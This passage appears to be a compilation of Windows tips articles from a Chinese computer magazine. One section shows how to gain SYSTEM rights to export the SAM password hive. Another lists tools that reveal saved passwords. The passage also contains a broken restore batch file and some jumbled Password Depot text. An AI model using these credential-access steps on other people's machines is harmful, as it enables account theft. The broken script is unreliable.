恢复：在重装操作系统，并创建好与原系统中用户名完全相同的新的用户后（新的用户名应与原系统中的完全一样，否则恢复无效），就可以开始恢复系统登录密码了。新建一记事本文件，输入如下内容，然后把它保存为RESTONE.BAT。

```
@echo Restone password.....
@echo off
@echo ylcopy D:\pwbak\*.pwl c:\windows
@echo Restone password Successfully!
pause
```

文件创建好后，也只要在Windows或DOS下将其运行即可完成对所有用户密码的恢复工作了。

## Windows 2000/XP/Server 2003

方法1：

第一步：在命令提示符下输入“at time /interactive regedit.exe”命令，添加一个计划任务。使用at命令，目的是要以system权限运行“注册表编辑器”程序。

> 小提示
“time”指定运行命令的时间，只要稍离当前时间1~2分钟即可。例如当前时间为13：43，命令为“at 13：45 /interactive regedit.exe”。“/interactive”允许作业在运行时，与当时登录的用户桌面进行交互。

第二步：打开注册表编辑器，找到[HKEY_LOCAL_MACHINE\SAM\SAM]，现在可以访问了（见图）。右击SAM子键，选择“导出”或单击菜单“文件→导出”，即可导出SAM文件内容。关闭“注册表编辑器”。



> 小提示
如果要在“注册表编辑器”中单一导出某个账户的用户密码，以备不时之需，打开[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names]，单击项下的具体用户名，单击“导出”。查看右窗格的默认值，如“Administrator”是“0x1f4”。然后单击“Users”项下的具体数值，如“000001F4”，单击“导出”。重要警告：不可以任意删除键值，否则可能发生致命错误！

第三步：需要时，双击导出的REG文件，导入注册表文件即可恢复导出时的用户密码，或移植到新的电脑。

方法2：

第一步：下载psu.exe工具（下载地址：http://www.newhua.com/cfan/200502/psu.rar），保存到“C：\WINNT\system32”文件夹。

第二步：打开“命令行提示符”窗口，输入“psu -p regedit.exe -i winlogon_pid”命令，打开“注册表编辑器”。其中winlogon_pid值是winlogon.exe进程的PID号。右击桌面任务栏，选择“任务管理器”，或按Ctrl + Alt + Del组合键，打开“Windows任务管理器”，单击“进程”选项卡，可以查看winlogon.exe的PID值。如笔者Windows XP的winlogon.exe的PID值是824，即输入“psu -p regedit.exe -i 824”命令。

> 小提示
如果在“Windows任务管理器”查看不到进程的PID值，单击“查看→选择列”，然后选中“PID（进程标识符）”复选项，单击“确定”。

第三步：打开“注册表编辑器”，按F5键刷新，[HKEY_LOCAL_MACHINE\SAM\SAM]分支可以访问了。然后按照“方法1”的第二、三步操作。

> 小提示
如果执行“psu -p regedit.exe -i winlogon_pid”命令无法访问SAM，打开“C：\WINNT\system32\config”文件夹，右击SAM文件，选择“属性”，单击“安全”选项卡，单击“system”，单击“允许”栏下的“完全控制”复选框，单击“确定”。然后再执行“psu -p regedit.exe -i winlogon_pid”命令即可。此命令在Windows XP/Server 2003下无效。

# 认出文本文件中的“小黑子”

在提出这个问题之前，请先看一下图1，你能看清楚里面的内容吗？再看一下图2，是不是比较清晰明了？可能你也经常遇到类似情况，特别是在网上下载的一些资料或软件说明文档，明明只是一个TXT文档，打开以后却出现图1画面，下面就请跟我一起弄清其中的原因吧。



图1中有很多小黑块，这是什么？其实很简单，因为在这个文件里面的换行标志只有一个字符，也就是ASCII码的10，而在Windows中，换行是采用两个字符表示的，即回车加换行，也就是ASCII码的13和10。当打开类似图1那样的文件时，由于在这个文件当中只有换行，没有回车，所以记事本程序就把它解析成了小黑块。选择用UltraEdit打开这样的文件时，会出现如图3所示的警告，询问是否将其转换为DOS格式，也就是说将其中的一个字符的换行转换成Windows下的回车加换行。无论点“是”还是点“否”，UltraEdit都能正确地显示文件内容，这是因为UltraEdit具有将一个字符的换行转换成回车加换行的功能。





> 小提示
在Linux和Unix中，换行是采用一个字符来表示的；在Windows中，换行是采用两个字符来表示的，即回车加换行，现在你该明白产生上述情况的原因了吧！
（李云峰）

但点“否”以后，文件内容将不发生任何改变，将其复制到记事本中以后仍不能正常显示；选择“是”后，其中的一个字符的换行被转变成了回车加换行，将其全选复制粘贴到记事本中以后即可正常显示。

# Visual CD 二步帮你管光盘

随着刻录机的流行，数据、电影、动漫、软件刻了一大堆，于是如何管好它们就成了大问题。因为当你面对一大堆光盘，又要在其中寻找相应资料或是软件，真不轻松，一张张试吗？想想都是一件浩大工程！而Visual CD能帮你轻松解决这个麻烦，为你把光盘妥善管起来。下面以一张带有MP3、电影、数据的DVD光盘为例。

Visual CD小档案

- 软件版本：1.9
- 软件大小：1.92MB
- 软件性质：免费
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://booze1.xcipher.net/download/viscd190.exe

第一步：将光盘放入光驱，打开Visual CD，单击工具栏左侧的新建按钮打开“New Catalog”（新目录）窗口，按照图所示进行设置，而最下面的三个选项分别为：
- Index Files within ZIP/RAR/CAB Archives（对ZIP、CAB、RAR压缩包中的文件进行目录索引）
- Index ID3 Tag within MP3 Files（索引MP3文件中的ID3标签信息）
- Index Hidden Files and Folders（索引隐藏文件和文件夹）

第二步：设置完成后按下“OK”按钮，软件便开始对光盘中的文件进行索引，速度相当快，一会功夫便完成了。现在即使你将光盘从光驱中取出，只要在左侧窗格中单击“Favorites”（收藏）标签，在右侧窗格中双击刚才新建的目录，软件会自动转回“Folders”选项卡并显示光盘中的所有内容，而且压缩包也能打开并查看其中文件。



小提示
Visual CD还有什么超COOL功能
- 制作MP3播放列表：点击“Tools→MP3 Playlist Generator”（MP3播放列表生成器）。
- 导出列表文件：点击“Tools→Batch Export”（批量导出），可生成HTML、TXT、RTF等格式的列表文件，不过对中文支持不好。
- Visual CD在“Extras Menu”菜单下还集成了一些不错的工具，比如：Advanced Rename（高级改名工具）、Duplicated Files Finder（重复文件查找器，功能非常强，过滤效果不错）、File Splitter（文件切割器）、NFO Reader（NFO阅读器）、Thumbnail Maker（缩略图生成工具）。
（笨笨 选题推荐：云南 李飞）

第三步：光盘中有些文件的名称很难看出它到底是什么，建议在“Folders”选项卡的列表窗口中右击这样的文件，接着选择“Add Comment”（添加注释），在弹出窗口中输入注释信息。
每次刻录完光盘后，先不要取出，而是打开Visual CD制作光盘的目录，并为其取个编号或名字，完成后再取出光盘，再用记号笔在盘背面写上刚才的编号或名字，然后再将其放入CD包或CD盒中收藏。
以后要寻找光盘中某个文件或是电影时，只要先打开Visual CD，单击工具栏搜索按钮，输入文件相关信息的关键词，比如“天下无贼”，软件会在文件名、注释、MP3的ID3标签中进行搜索，相信很快就会找到你需要的东东了。

# 补丁、软件装不上？试试右键

## 1. MSI 安装文件

一次在安装Norton GoBack时，发现总是提示需要重启后才能安装，但试了多次依然不行，无意中右击了一下安装文件夹中的nortongoback.msi文件，在右键菜单中居然有“安装”、“修复”、“卸载”三个选项，试着选择了“安装”，居然顺利地出现了安装界面，并且很快安装成功。

## 2. INF 补丁文件

在论坛上闲逛时，电脑一不小心中毒了，机器变得缓慢无比。通过在网上搜索，得知这是一种利用Windows下IE的iFrame系统漏洞的恶意木马程序。通过下载一个名为q319182.exe的补丁程序可以解决。下载后双击该文件，系统提示“该更新需要安装Internet Explorer 6”，可我已经安装过了啊！经过研究发现，直接在q319182.exe上按右键，用WinRAR释放到一个新的文件夹，打开发现释放出了很多文件。在q319182.inf上按右键，选“安装”（见图），哈哈！补丁被成功安装了。轻车熟路地重新启动计算机，一切搞定！如果你也遇到过补丁无法安装的故障，不妨试试这种安装方法。
（北京 张思源）



# 解决Applocale 的应用故障

还记得我们以前介绍过的Applocale吗？它能轻松解决安装繁体中文软件后软件界面乱码问题，不需要更改系统区域语言设置即可正常使用繁体中文等其他语言的软件（下载地址：http://download.microsoft.com/download/1/2/9/1294094c-c6d3-48d0-9b3b-2a7befca7098/apploc.msi）。
笔者使用AppLocale发现，它会在Windows\AppPatch文件夹中生成“AppLoc.tmp”文件，该文件可能会造成其他Windows Installer程序运作错误，导致其安装界面变成乱码，大家可以通过以下方法变相解决。首先在Windows\AppPatch目录新建一个文本文本，并将其改名为“AppLoc.tmp”，然后右键打开该文件的属性对话框，选中“只读”属性后确定即可防止生成新的“AppLoc.tmp”文件。
（limited）Password Depot小档案
软件版本:1.7.2.0
软件大小:4.7MB
软件性质:免费软件
适用平台:Windows 98/Me/2000/XP
下载地址:http://www.password-depot.com/download/pdepot17.exe
软件备注:免费版本可以保存20个密码。目前该软件已经推出了2.0版本(下载地址:http://www.password-depot.com/download/pdepot2.exe), 经我们测试, 虽然功能更强大, 比如自动输入密码更快捷, 可以安装到闪盘上, 能够将密码列表文件保存到FTP服务器上等, 但还是存在一些小BUG, 目前不推荐安装。

## 可怜的密码，我要保护你！

要鼠标一击便可完成用户名和密码的自动输入，其中的“<user><tab><pass><enter>”意为输入用户名后按下Tab键，接着输入密码，然后按回车键。
第三步:这样就完成了登录CFan论坛的设置, 我们先来试试效果, 单击Password Depot工具栏的“Top Bar”按钮, 在Windows桌面上方会出现一个工具条(见图4), 在“Group”中会显示为“论坛”, “Password”后

### 密码你好可怜，有多少人在折磨你！

你一定有一大堆密码, 论坛、邮箱、QQ/ MSN Messenger、机密文件……它们守卫着你的隐私和秘密, 于是它们也被那些不怀好意的人所关注, 我们相信如果你看过下面介绍的软件后, 一定会为自己密码的安危而担心不已。
注:以下给出下载地址的软件并非恶意软件, 主要功能是帮助用户找回自己丢失的密码, 因此也请大家正确使用它们。

+   - **溜破星号的Asterisk Key:** 为了省事你会让IE、Outlook Express(以下简称OE)、Outlook、 Foxmail、FTP软件自动记录密码, 但只要在相关显示为星号的密码位置处, 利用这款星号查看工具(http://www.lostpassword.com/f/downloads/ariskkey/ariskkey.exe), 密码立即就会显示出来。

+   - **Protected Storage PassView:** 有些论坛如果让IE自动保存了用户和密码, 并不会出现星号, 但Protected Storage PassView(http://files.webattack.com/locald1834/pspv.zip)能够扫描出系统中保存的网页、OE、 Outlook密码信息。 而Mail PassView(http://www.nirsoft.net/utils/ mailpv_setup.exe)更厉害, 它不仅能够恢复 OE、 Outlook中的密码恢复回来, 并且能找回 Yahoo Messenger、 MSN Messenger、 Gmail相关工具中保存的密码。

小提示
国内还有一款叫做“QQ密码寻回者”的软件, 只要你在电脑中成功登录过QQ, 它就能找回QQ密码。

+   - **Accent Office Password Recovery:** 用来恢复Word、Excel、Access文件密码的工具(http://www.skycn.com/soft/523.html)。

+   - **Advanced RAR Password Recovery:** 恢复RAR压缩包密码的工具(http://www.skycn.com/soft/21253.html)。

+   - **可怕的局域网监听工具:** 这类软件可以在网上找到很多, 比如:网络解霸、 密码监听器等, 它们能够捕获整个局域网其他用户的明文传输密码。 比如Web邮箱密码、论坛密码、密码保护、FTP账号, POP3邮箱密码等。

+   - **盗号木马:** 由于QQ、网络游戏的流行, 因此也就产生了数不胜数的盗号木马, 它们会潜伏在受害人的电脑中, 当运行QQ、网络游戏时, 便会将相应的密码自动发送到指定邮箱中。

+   - **键盘记录:** 如键盘记录者等软件, 它们能够将你所有的键盘操作记录下来, 当然这其中就包括你的重要密码。

### 该如何保护可怜的密码

#### 1. 让它长一些, 复杂一些
专家建议最好将密码设定得位数尽量长, 并且要使用大写、小写字母 + 标点 + 数字组合, 这样却给我们记忆密码带来了极大困难。

#### 2. 安装杀毒软件和防火墙
由于许多密码失窃都是因为系统中被安装了木马, 因此安装杀毒软件和防火墙是非常有效的防范措施。

#### 3. 不要让IE、OE等软件保存你的密码
打开IE, 进入“工具→选项→内容”, 单击“自动完成”按钮, 在弹出窗口中取消“表单上的用户名和密码”, 同时, 在访问论坛时, 不要选择保存Cookie(见图1), 而对于OE、Foxmail、QQ、 MSN Messenger等软件, 则不要选择让软件记录密码。

### 用Password Depot保管你的密码

上面提到了, 保证密码不被窃取的重要手段之一便是使用复杂密码以及不要让软件保存密码, 但我们往往会有一大堆密码, 这样记忆起来对谁都不是件容易事, 因此想不起论坛、邮箱、文件的密码便成为我们经常遇到的麻烦。 也正因为这样, 密码管理软件诞生了, 它们可以将你的密码统一保存在一个加密的文件中, 你只需要记住密码管理软件的密码就行了。
我们经过对20多种密码管理软件的长期试用和比较, 最后为大家推荐Password Depot这款软件。

### 实例1:记住CFan论坛的密码

第一步:软件安装后第一次运行会首先弹出如图2所示的新建密码列表文件的窗口。
在“List Access Key” 和 “Retype List Access Key”中输入密码。然后单击OK按钮, 软件提示要好好保管这个密码, 接着便会弹出“List Access Key”窗口, 输入刚才设置的密码即可打开软件主界面。
第二步: Password Depot虽然是英文界面, 但使用还是蛮简单的, 首先在左侧“Group”窗格中右击“My Passwords”并选择“New Group”(新建组), 将其命名为“论坛”, 接着选中创建的“论坛”子组, 然后单击工具栏的“Add”按钮, 这样便弹出了“New Password”(新建密码项)的窗口(见图3)。这里要注意的是, “URL”应输入论坛的登录页面地址, 比如电脑爱好者论坛为http://bbs.cfan. com.cn/index.php?act=Login&CODE=00(这个地址一般是论坛首页“登录”的链接); 而“Auto Complete sequence”(自动完成排程)是Password Depot的特色功能, 它能够实现只需要鼠标一击便可完成用户名和密码的自动输入, 其中的“<user><tab><pass><enter>”意为输入用户名后按下Tab键, 接着输入密码, 然后按回车键。



图1



图2



图3



图4



图5

### Just Do It

★请试试将五笔爱好者论坛(http://wbfans.w11. 51web.cn/bbs/)加入到Password Depot中, 注意它的登录页面为http://wbfans.w11.51web.cn/bbs/login.asp。因为这里输入用户名的顺序是:用户名 + Tab + Tab + 密码 + 回车, 因此“Auto Complete sequence”需要修改, 请在图3中单击“Select”按钮, 接着在打开窗口中单击“Add”按钮, 然后通过单击User name等按钮输入“<user><tab> <tab><pass><enter>”。
★请创建一个“邮箱”的组, 试着将你的Web邮箱添加进来, 你会发现, 进入邮箱会这样轻松、简单。

### 实例2:制作QQ快速登录

第一步:在左侧“Group”窗格中右击“My Passwords”并选择“New Group”(新建组), 将它命名为“应用程序”, 接着选中创建的“应用程序”组, 然后在工具栏单击“Add”按钮, 这样便弹出了图3所示窗口。
第二步:其他设置与实例1相同, 只是在“URL”项应单击其后的“Local File...”按钮, 并在打开窗口中定位到QQ可执行文件(C: \Program Files\Tencent\QQ\QQ.exe), 而“Auto Complete sequence”应改为“<pass><enter>”(因为QQ登录窗口一般会自动出现你的QQ号), 只需输入密码即可。
第三步:完成设置后, 同样方法进行测试。

### 实例3:如何知道密码到底是什么

Password Depot默认将输入的密码显示为星号, 如果你想知道某个保存的密码到底是什么, 可以单击工具栏的“Options”按钮, 在打开窗口的“General”选项卡中勾选“Password Visible by Default”(密码默认可见), 然后再右击相应的项目并选择“Modify”(修改), 在弹出窗口中便会看到密码的本来面目了。
到此你一定已经体会到了Password Depot的妙处, 从此以后你不需要再记住那么多密码, 只要记住一个密码就行了。而且它不仅能够帮你安全地管理各种密码, 还能生成需要大约307年才能破解的复杂密码, 同时其工具条还可以充当网站、程序、文件的快速启动栏。

(ABCD)

## 小手教你备份注册表

本文以Windows XP为例(其他Windows版本可参考操作)，介绍使用Windows '记事本'程序查找、修改注册表数据以及使用简单的批处理脚本备份注册表的方法。

### 两个重要的分支

+   1. 用户个人数据[HKEY_CURRENT_USER]

该分支中存放的是当前登录用户的个人喜好设置、所用的软件的设置等个人数据。无论来宾、受限用户、高级用户还是管理员，都可以修改属于自己个人的注册表数据。用户个人的注册表数据就是“注册表编辑器”左侧窗格[HKEY_CURRENT_USER]所包含的项、子项和值项。

+   2. 系统的核⼼数据[HKEY_LOCAL_MACHINE]

只有管理员权限的用户可以访问系统注册表数据，其中存放了系统中各项重要的核心设置数据。系统的注册表数据就是“注册表编辑器”左侧窗格显示的[HKEY_LOCAL_MACHINE]所包含的项、子项和值项。

### 与备份注册表过招

#### 任务1:备份注册表分支并编辑部分设置

+   第一步:点击“开始→运行”(或命令行提示符)，输入以下命令导出两个注册表分支(驱动器、路径及文件可自定义)，导出后的myreg.reg大小约为8MB～9MB，而sysreg.reg大小约为30MB～60MB，视个人情况略有不同。
reg export hkcu c:\myreg.reg
reg export hklm c:\sysreg.reg
第二步:分别右击myreg.reg和sysreg.reg，选择“编辑”或“发送到→记事本”(创建右键菜单“发送到→记事本”，可将“开始”菜单中的“记事本”快捷方式复制到“C:\Documents and Settings\username\SendTo”文件夹)，用“记事本”程序打开myreg.reg文件。
第三步:点击菜单命令“编辑→查找”，输入要查找内容的关键词，单击“查找下一个”。查找到一个数据，可执行删除、修改操作，然后按F3键可继续查找下一个数据。查找、修改所有数据，选择菜单“文件→保存”



#### 任务2:恢复用户设置

(1)图形界面恢复方式:在发生问题需要恢复时，右击myreg.reg选择“合并”即可。
(2)命令行模式恢复方式:在命令行模式下输入“reg import c:\myreg.reg”(不包括引号)命令就能将其导入注册表。



#### 任务3:自制Net Transport的128线程补丁

+   第一步:点击“开始→运行”，输入“Regedit.exe”(不含引号)回车，打开“注册表编辑器”，转至[HKEY_CURRENT_USER\Software\Xi\NetTransport 2\Download]。
第二步:在右侧的编辑框里新建一个DWORD值命名为“Max Threads”，双击这个值，在“数值”中输入128，在“基数”中选择“十六进制”。
第三步:选择菜单“文件→导出”，“保存类型”设为“Win9x/NT4注册文件”(在Windows 2000/XP中使用默认的保存类型导出的注册表文件无法在Windows 9x下导入)，保存为128threads.reg(见图1)。
第四步:复制一份128threads.reg并将新文件命名为uninstall128.reg，用“记事本”打开该文件，将[HKEY_CURRENT_USER\Software\Xi\NetTransport 2\Download]子项下的“Max Threads”=dword:00000128修改为“Max Threads”=-(不包括外侧中文引号)，在注册表文件中将键值设为“-”即代表删除该键值(见图2)。只需双击导入128threads.reg即可打上128线程补丁，而双击导入uninstall128.reg则将恢复未安装补丁前的状态。



#### 任务4:自动备份注册表

[HKEY_CURRENT_USER]和[HKEY_LOCAL_MACHINE]这两个分支是黑客程序、后门、病毒及恶意网站最常攻击的目标，一旦这两个分支下的数据被病毒修改，要一一排查被修改的数据是件非常困难的事，而手动地输入命令备份相当麻烦，如何快速备份和恢复被“劫持”的系统呢？
第一步:打开“记事本”，输入下列内容，并保存为myregbak.bat:

```

@echo off
set mypath="c:\myfolder\%date%"
if exist "%mypath%" rd /s /q "%mypath%"
md "%mypath%"
cd "%mypath%"
reg export hkcu myreg.reg
reg export hklm sysreg.reg

```

这段脚本的大意是:首先定义一个变量并将其设置为C:\myfolder下以当天的日期命名的一个目录，如果该目录不存在就根据变量值创建此目录。然后将当前目录转到这个目录中，如果已经存在用户个人的注册表备份文件myreg.reg则删除，重新导出用户个人的注册表数据到文件。如果已经存在系统的注册表备份文件sysreg.reg则删除，重新导出系统的注册表数据到文件。

##### 小提示

如果不是管理员权限的用户，不需要备份系统的注册表数据(不要输入第7行即可)。以上提供的批处理脚本在Windows XP下测试通过，驱动器、路径及文件名可自定义。

#### 任务5:每天首次登录/启动时备份注册表

适当修改myregbak.bat批处理文件，单击“开始→运行”，输入“gpedit.msc”，打开“组策略”。双击打开“用户配置→Windows设置→脚本→登录”或“计算机配置→Windows设置→脚本→启动”，点击“添加”按钮并选择myregbak.bat，即可实现每天首次登录/启动计算机时备份一次注册表。修改后的批处理文件如下:

```

@echo off
set mypath="c:\myfolder\%date%"
if exist "%mypath%" goto end
md "%mypath%"
cd "%mypath%"
reg export hkcu myreg.reg
reg export hklm sysreg.reg
:end

```

注意:本文提供的批处理脚本的保存位置应与mypath的位置在同一盘符下。

小提示
过期的注册表备份文件，推荐不定期手工删除，以免占用过多硬盘空间。如果感兴趣的读者可以尝试编写一个脚本文件并利用“任务计划”实现自动删除。

(张宗闽)

### 看图从来不用这样麻烦

许多朋友的电脑中保存着大量的图片，ACDSee出品的一款叫做“PicaView”可以让你通过右击图片文件直接在右键菜单中查看图片，笔者最近找到一款免费、小巧的右键看图软件——MiTeC PE Image Shell Extension，功能一样很出色。

首先到http://www.newhua.com/cfan/200503/imagview.rar下载，解压缩后右击其中的“MPEISE.inf”文件并选择“安装”，完成安装后，右击任意一个图片文件，你会发现其缩略图直接显示在右键菜单中了，单击缩略图后会进入软件窗口（见图）。进入“Settings”选项卡后可在“Thumbnail Size”中显示右键菜单缩略图的大小。


## 狂想补药 快速启动栏变成Super启动栏

还记得我们2004年第2期介绍的替代Windows快速启动栏的True Launch Bar吗？先来重温一下它究竟有哪些亮点：
★不仅能替代快速启动栏，甚至是开始菜单，而且只要将鼠标指针放在相应按钮上不用按就能启动软件；
★让你同时拥有多个快速启动栏，让它们各司其职，启动程序更方便；
★不同程序可以拥有各自的个性启动栏，比如：启动Word，启动栏会出现保存数据的文件夹、计算器、记事本等。
如果你还没有使用它，请赶快到 http://download.truelaunchbar.com/install/tlb32.exe 下载并安装吧！

正是因为True Launch Bar的功能人见人爱，所以编辑部的小编都将Windows自带的快速启动栏打入了冷宫。最近据小道消息报道：True Launch Bar还有很多同伙！他们只要和True Launch Bar搭档就能给大家带来更大的方便，于是小编就四处张贴起了“通缉令”……

通缉令
姓名: True Launch Bar插件
方言口音: Windows 98/2000/XP
性别: 共享软件
特征: 配合True Launch Bar能给日常电脑使用带来方便

这招果然有效，这不？才没过几天，就有“见义勇为”的热心读者押送着一批好用的True Launch Bar插件（插件聚集地：http://www.truelaunchbar.com/plugins/index.html）来到编辑部请大伙给他们一一“定罪量刑”。

### 怎么将插件“逮捕归案” —— 插件的安装与卸载

安装: 只要将插件下载至本地后，直接运行即可完成安装，之后通过右击True Launch Bar，然后在“新建”下拉列表中可以找到已经安装的插件，选择相应插件即可。同时你也可以右击桌面下方的True Launch Bar启动栏，选择“TLB设置”，在弹出的窗口中进入“关于”，接着单击“检查版本更新”按钮，然后再单击“检查升级”按钮，这样就会列出软件本身是否有升级、语言包以及所有插件及更新版本的列表。勾选需要的插件，再单击“下载并安装”按钮即可（见图1）。



卸载: 在True Launch Bar的安装目录下找到一个名为plugins的目录，进入后可以看到一堆已安装的插件名称（或缩写）命名的目录，在需要卸载的插件的名称所对应的目录中找到uninstall.exe运行即可。在卸载完成后并不会马上在True Launch Bar中反映出来（在“新建”中仍有已卸载的插件名），可以通过右击任务栏空白处，去除“工具栏”中的“True Launch Bar”的勾选，然后再对其重新勾选即可。

### 1. TLB Clock: 将时钟请过来 给系统托盘腾点儿地

http://download.truelaunchbar.com/install/tlbclock.exe

第一步: 安装后在True Launch Bar中新建一个TLB Clock，接着右击其在快速启动栏的图标并选择“属性”，然后进入“常规选项”选项卡，在“皮肤”下拉框中选择一款适合自己品味的（注意时钟大小）。
第二步: 可通过勾选“显示日期”让日期显示出来，不过具体设置还得按自己的喜好确定。分别点击“数字字体”和“名称字体”，将字体设置为“宋体”、大小设为“小五”，点击“确定”完成。
第三步: 进入“时区选项”选项卡，将“时区”设置为“北京，重庆，香港特别行政区，乌鲁木齐”。
第四步: 右击“开始”按钮选择“属性”，在“任务栏”标签下取消“显示时间”选项，这样在系统托盘处就不显示时钟了。

### 2. Media Control: 你的Foobar得听我的

http://download.truelaunchbar.com/install/tlbmediactl.exe

我们知道在Windows XP中可以右击“任务栏”，选择“工具栏→Windows Media Player”，以后只要选择最小化WMP，它就会自动缩至任务栏，并且能在此进行最基本的播放控制。而True Launch Bar安装了Media Control插件后，Foobar、Winamp等播放器也能直接在启动栏中控制（见图2）。



右击True Launch Bar中刚才新建的该插件图标，选择“属性”。在弹出窗口的左侧选择Options，将右侧的Player设置为“foobar 2000 v0.8.x”（如果要控制其他的播放器则应选择对应的选项）。将下方的“Path to player”并定位到Foobar播放器的执行文件路径中即可，点击“确定”保存设置。

### 3. Turn Off Computer: 让关机变得更快捷

http://download.truelaunchbar.com/install/tlbturnoff.exe

在快速启动列表中右击Turn Off Computer图标并选择“属性”，然后勾选可执行的选项（比如注销、关闭、重启等），在这里还可以给Turn Off Computer设置一个快捷键，如果你觉得Ctrl + Alt + Del不够方便，可以设置一个更加方便的关机快捷键，比如Alt + Caps Lock等。

### 4. Weather Forecast: 快速启动栏里的天气预报

http://download.truelaunchbar.com/install/tlbfw.exe

如果想通过电脑知道所在地当前和未来的天气情况，无非是在网上搜索，或使用天气预报软件。不但看起来不方便，而且不能即时掌握最新天气情况。那么，把天气预报装进快速启动栏吧。
第一步: 下载安装天气预报插件后自动进入设置界面。在弹出的“Weather Forecast”窗口中选择“General options”选项卡，点击“Location ON:”右侧的浏览按钮。

第二步: 在弹出搜索框中，输入你所在城市拼音（如“上海”为“SHANGHAI”），点击“Search”按钮。如果找到符合类型的城市，在下方Locations框中就会都显示出来，选择结果列表中正确的城市即可，接着进入“Units”（单位）选项卡，将“Temperature”（温度）改为“Centigrade”（摄氏温度），最后点击“确定”完成设置。在快速启动上已经显示了当地的天气情况，如果将鼠标悬停，还能看到更多的天气信息，点击后则可看到今天和明后两天的天气预报（见图3）。



### 5. Mail Monitor: 大胆挑战垃圾邮件

http://download.truelaunchbar.com/install/tlbmailmon.exe

可能你怎么也不会想到，一个快速启动栏增强工具还能和垃圾邮件扯上关系。可事实偏偏就是如此，True Launch Bar装上Mail Monitor插件后俨然成为了一个功能强大的桌面反垃圾邮件工具！
(1)基本设置
第一步: 安装插件后自动弹出设置窗口，进入“邮箱账号”选项卡，点击“新建账号”按钮，在弹出的“邮箱账号”窗口中选择“账号设置”选项卡，在“账号名称”中输入账号的名称（如“CFAN”），在“连接”处选择你所在的网络的连接类型（一般为“使用IE的设置”）。
第二步: 分别进入“收件服务器”和“发件服务器”选项卡，填写相应收发邮件服务器地址（如“pop.163.com”）及用户名、密码，完成后点击“确定”。

### (2) 屏蔽垃圾邮件地址

第一步: 点击快速启动栏中的Mail Monitor图标打开其主窗口，接着点击窗口上方工具栏左侧第一个按钮收取邮件，在右侧邮件列表会显示了邮箱中所有邮件标题。
第二步: 根据标题找出垃圾邮件，如无法确定，可在列表中双击该邮件标题，在界面下方的“邮件”选项卡就显示了该邮件的内容。
第三步: 在邮件列表中右击某个垃圾邮件，选择“新建过滤条件”，在弹出窗口的“添加条件到规则”中，我们可以设置：
A. 邮件主题规则: 选择“spam by subject”，在“标题字段”中选择“Subject”，适当调整下方“值”中搜索的关键字，再收到此类标题的邮件时就自动过滤。
B. 收/发件人规则: 选择“spam by to/from”，在“标题字段”中选择Sender，“搜索功能”选择“是当前”，再收到该发件人的邮件时自动过滤。
C. 好友规则: 选择“Friends”，在“标题字段”中选择“Sender”，“搜索功能”选择“是当前”。

### (3) 好友邮件、垃圾邮件就要区别对待

第一步: 右击Mail Monitor图标选择“属性”，在“过滤”选项卡中点击“编辑过滤规则”。
第二步: 在弹出的“过滤规则”窗口左侧在Outlook Express的“过滤规则”中选择“Friends”，在右侧的“当邮件符合条件后的操作”处勾选“存储邮件到文件夹”，并设置一个好友邮件的保存目录(如“D:\friendmail”)。

第三步:在窗口左侧选择“spam by subject”，勾选右侧的“删除服务器上的邮件”(左侧的spam by to/from也可按此设置)。

(4)将邮件地址导入过滤规则
同样也在“过滤规则”窗口中，选择左侧的“spam by to/from”。接着从http://www.newhua.com/cfan/200504/Blacklist.txt下载垃圾邮件数据文件，点击“过滤规则”窗口右下方点击“从文件导入条件”按钮。然后点击弹出窗口中“文件名”输入框右侧的文件浏览按钮，选择刚才下载的地址包，点击“确定”即可完成导入(见图4)。



> Just Do It
在Outlook Express中用导出联系人的方法导出好友邮件地址，然后导入Friends规则中。

附表:True Launch Bar 插件速查
| 插件名称 | 功能 |
| :--- | :--- |
| Calculator | 为快速启动栏增加一个计算器 |
| CD Control | 安装后可以通过单击它来弹出和关闭光驱 |
| Command Line | 相当于“运行”的功能 |
| Drive Space | 显示磁盘使用状态 |
| Key State | 显示 CAPS LOCK、NUM LOCK、SCROLL LOCK 的开启状态 |
| MotherBoard Monitor | 和著名的主板监控软件 Motherboard Monitor 配合使用，可显示 CPU、主板温度及风扇转速 |
| Process Viewer | Windows 进程查看器，可停止进程 |
| Battery Monitor | 实时查看笔记本电池使用情况 |
| Moon Monitor | 显示当前的月相 |
| Net Monitor | 显示网络连接情况，比如：IP 地址、接收和发送速率等 |
| ToDo List | 可用来记录你准备要做的事情 |
| System Monitor | 监测系统资源的状况 |
| UpTime | 显示 Windows 运行的时间。 |
| Volume Control | 让你直接在启动栏调整音量 |
| Wireless Monitor | 显示无线网络的状态 |
| Virtual Desktop | 虚拟桌面，让你同时拥有多个桌面 |

(FanlyFantasy 熊猫盼盼)

## 慢！慢！慢！
### 原来是它惹的祸

在 Windows 2000 中，如果遇到点击某些程序菜单命令“文件→打开”(比如：Windows Media Player、Excel 等)，并在打开的对话框的“查找范围”项后单击下拉按钮，下拉列表显示速度极慢(甚至超过 30 秒才能显示)，这个故障的产生原因往往是因为你在“资源管理器→工具”中设置了映射网络驱动器，如果所映射的网络驱动器不能连接，就会造成 Windows 多次尝试在后台对服务器进行搜索，从而出现较长延时问题。

另外，映射网络驱动器还会造成系统开机慢的故障，比如：映射的网络驱动器太多，Windows 在开机时会花费较多时间连接并映射每个网络驱动器，或者所映射的网络驱动器在开机时无法连接，Windows 会尽力搜索并尝试建立映射，于是也就造成了开机慢的问题。

针对以上问题，我们建议大家最好利用批处理来创建映射网络驱动器，而不是“资源管理器→工具→映射网络驱动器”，需要时只要双击该批处理文件来快速开启，批处理文件内容为：

```
NET USE P: \\cfserver\稿件
NET USE /PERSISTENT:NO
```

其中“P:”为是映射驱动器在本地的盘符，冒号后空一格，然后写上要映射的服务器文件的路径；请根据你的实际情况修改。
第二句的意思是系统开机时不重新建立映射驱动器。

(北京 卡卡西)

## 玩转大小写和全半角
### 任务 1:把英语作文的句首改为大写

**菜鸟的方案:越简单越好**
第一步:打开 Word，将需要转换的作文内容复制到编辑框中。
第二步:选择菜单“编辑→替换”打开“查找和替换”窗口，在“查找内容”中输入“. ”(不含引号，英文句号后有一空格)，在“替换为”中输入“.”，点击“全部替换”按钮。
第三步:同样在“查找和替换”窗口中，在“查找内容”中输入“.”，在“替换为”中输入“. ”(均不含引号，‘替换为’中的英文句号后有一空格)，点击“全部替换”按钮，关闭替换窗口。
第四步:按“Ctrl+A”全选作文后，选择菜单“格式→更改大小写”，在弹出窗口中选择“句首字母大写”，点击“确定”按钮即可。

**小提示**
